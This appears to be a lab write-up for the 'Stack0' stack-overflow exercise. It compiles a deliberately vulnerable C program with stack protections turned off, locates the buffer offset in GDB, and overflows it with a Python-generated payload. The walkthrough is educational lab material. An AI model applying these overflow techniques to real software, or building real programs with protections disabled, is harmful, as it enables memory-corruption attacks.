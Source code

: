 # Explaination

1. **Compile**

```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack0.c -o Stack0
```

2. **Drop into GDB and locate vulnerable read**
```bash
gdb ./Stack0

(gdb) disassemble main
```
(images/BreakPointGets.png)
- Scan for call to `gets`/`strcpy`/`fgets` (whichever unsafe function used).
- Note its address, say `0x080491a6`.


3. **Break at that instruction**
```gdb
(gdb) break *0x080491a6
```

4. **Run a large dummy payload**
```gdb
#directly from GDB
(gdb) run < <(python3 -c "print('A'*200)")
```

5. **When it stops print the addresses**
```gdb
(gdb) print &buffer        # start of buffer
(gdb) print &modified      # or &return_addr slot
```
(images/GDBdisas.png)
This gives you the number of filler bytes you need to reach `target` (whether it’s a local var or saved RIP/EIP).

6. **Compute exact byte distance**
```gdb
(gdb) print (char*)&target - (char*)&buffer #will find exact offset
64
```
(images/OffsetStack0.png)

7. **Craft payload and execute**

```bash
python3 -c 'print("A"*64 + "B")' | ./Stack0
```
(images/Success.png)
